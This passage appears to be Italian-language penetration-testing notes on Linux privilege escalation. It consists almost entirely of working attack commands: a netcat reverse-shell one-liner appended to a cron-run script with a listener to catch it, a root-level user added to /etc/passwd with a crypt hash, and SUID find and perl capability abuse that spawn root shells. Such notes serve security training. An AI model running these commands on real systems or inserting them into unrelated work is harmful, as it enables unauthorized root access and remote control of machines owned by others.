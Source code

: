 ## 17.3. Insecure File Permissions

```bash
grep "CRON" /var/log/syslog
grep "CRON" /var/log/cron.log

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP 1234 >/tmp/f" >> file_con_permessi_elevati.sh

nc -lnvp 1234
```

## 17.3.2. Abusing Password Authentication

Qualora avessimo i permessi di modificare il file /etc/passwd potremmo aggiungere un nuovo utente:

```bash
openssl passwd w00t

echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

su root2
```

- https://en.wikipedia.org/wiki/Crypt_(C)

# 17.4. Insecure System Components

## 17.4.1. Abusing Setuid Binaries and Capabilities

In questi comandi si fa una panoramica sul processo passwd utilizzato per cambiare password:

```bash
passwd

ps u -C passwd

grep Uid /proc/1932/status (1932 E IL PID DEL PROCESSO)

cat /proc/1131/status | grep Uid (1131 E IL PID DEL PROCESSO BASH UTENTE)

ls -asl /usr/bin/passwd
```

Nel caso mostrato l'utility _find_ ha il flag SUID, quindi viene utilizzata per scalare i privilegi:

```bash
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

Nel caso successivo si cercano delle _capabilities_ da sfruttare:

```bash
/usr/sbin/getcap -r / 2>/dev/null

perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
